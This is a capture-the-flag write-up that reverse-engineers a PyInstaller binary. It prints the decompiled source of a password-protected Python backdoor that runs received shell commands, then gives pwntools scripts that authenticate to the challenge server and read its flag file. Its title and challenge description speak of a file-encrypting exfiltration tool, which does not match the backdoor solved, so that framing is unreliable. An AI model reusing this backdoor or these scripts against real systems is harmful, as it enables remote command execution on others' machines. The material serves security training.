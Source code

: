 # Cyber Apocalypse 2021 Alienware Write Up

## Details:
Points: 350

Jeopardy style CTF

Category: Reverse Engineering

Comments:

```
We discovered this tool in the E.T. toolkit which they used to encrypt and exfiltrate files from infected systems. Can you help us recover the files?
This challenge will raise 43 euros for a good cause.
```


## Write up:

After extracting the .zip file we see a file named bd. Running strings on it we see some interesting stuff:

```
strings bd | grep python

b_asyncio.cpython-38-x86_64-linux-gnu.so
b_bz2.cpython-38-x86_64-linux-gnu.so
b_codecs_cn.cpython-38-x86_64-linux-gnu.so
b_codecs_hk.cpython-38-x86_64-linux-gnu.so
b_codecs_iso2022.cpython-38-x86_64-linux-gnu.so
b_codecs_jp.cpython-38-x86_64-linux-gnu.so
b_codecs_kr.cpython-38-x86_64-linux-gnu.so
b_codecs_tw.cpython-38-x86_64-linux-gnu.so
b_contextvars.cpython-38-x86_64-linux-gnu.so
b_ctypes.cpython-38-x86_64-linux-gnu.so
b_decimal.cpython-38-x86_64-linux-gnu.so
b_hashlib.cpython-38-x86_64-linux-gnu.so
b_lzma.cpython-38-x86_64-linux-gnu.so
b_multibytecodec.cpython-38-x86_64-linux-gnu.so
b_multiprocessing.cpython-38-x86_64-linux-gnu.so
b_opcode.cpython-38-x86_64-linux-gnu.so
b_posixshmem.cpython-38-x86_64-linux-gnu.so
b_queue.cpython-38-x86_64-linux-gnu.so
b_ssl.cpython-38-x86_64-linux-gnu.so
blibpython3.8.so.1.0
bmmap.cpython-38-x86_64-linux-gnu.so
breadline.cpython-38-x86_64-linux-gnu.so
bresource.cpython-38-x86_64-linux-gnu.so
btermios.cpython-38-x86_64-linux-gnu.so
xinclude/python3.8/pyconfig.h
xlib/python3.8/config-3.8-x86_64-linux-gnu/Makefile
&libpython3.8.so.1.0
```

This means that this file is a python .pyc compiled with pyinstaller. This was confirmed by running binwalk and seeing a zip archive inside containing the pyinstaller includes. Since this is a linux executable and not an exe we cannot just use the basic tools. First we need to extract the .pyc data. This is done by running:

```
objcopy --dump-section pydata=pydata.dump ./bd 
```

We can then run one of the many pyinstaller extractors, I used pyinstxtractor, https://github.com/extremecoders-re/pyinstxtractor (make sure to use the python version it was compiled with):

```
python3.8 ./pyinstxtractor/pyinstxtractor.py pydata.dump

[+] Processing pydata.dump
[+] Pyinstaller version: 2.1+
[+] Python version: 38
[+] Length of package: 6994886 bytes
[+] Found 45 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_multiprocessing.pyc
[+] Possible entry point: bd.pyc
[+] Found 223 files in PYZ archive
[+] Successfully extracted pyinstaller archive: pydata.dump

You can now use a python decompiler on the pyc files within the extracted directory

```

We now see the bd.pyc file, after decompilation we get:

```python
import socket
from hashlib import md5
from subprocess import check_output
sock = socket.socket()
sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
sock.bind(('0.0.0.0', 4433))
sock.listen(5)
while True:
    client, addr = sock.accept()
    data = client.recv(32)
    if len(data) != 32:
        client.close()
    elif data.decode() != md5('s4v3_th3_w0rld').hexdigest():
        client.send('Invalid')
        client.close()
    else:
        size = client.recv(1)
        command = client.recv(int.from_bytes(size, 'little'))
        if not command.startswith('command:'):
            client.close()
        else:
            command = command.replace('command:', '')
            output = check_output(command, shell=True)
            client.send(output)
            client.close()
```

We see that we need to connect, then send the md5, then the length of whatever command, then "command:\<command to send\>".

So the first script we send ls to see what is on the system:

```python
# import pwntools
from pwn import *

# command to send
command = 'command:ls'

# connection
s = remote("138.68.179.198", 30791)

# send the md5
s.send('e2162a8692df4e158e6fd33d1467dfe0')

# send length of command
s.send(chr(len(command)))

# send command
s.send(command)

# read responses
print(s.recvline())
print(s.recvline())
print(s.recvline())
print(s.recvline())
print(s.recvline())
print(s.recvline())
print(s.recvline())
print(s.recvline())
```

The response from this is:

```
[+] Opening connection to 138.68.179.198 on port 30791: Done
b'bd.py\n'
b'bin\n'
b'dev\n'
b'etc\n'
b'flag.txt\n'
b'home\n'
b'lib\n'
b'media\n'
```

We then read the flag:

```python
# import pwntools
from pwn import *

# command to send
command = 'command:cat flag.txt'

# connection
s = remote("138.68.179.198", 30791)

# send the md5
s.send('e2162a8692df4e158e6fd33d1467dfe0')

# send length of command
s.send(chr(len(command)))

# send command
s.send(command)

# read responses
print(s.recvline())
```

```
[+] Opening connection to 138.68.179.198 on port 30791: Done
b'CHTB{b4ckd00r5_4r3_d4nG3r0u5}\n'
```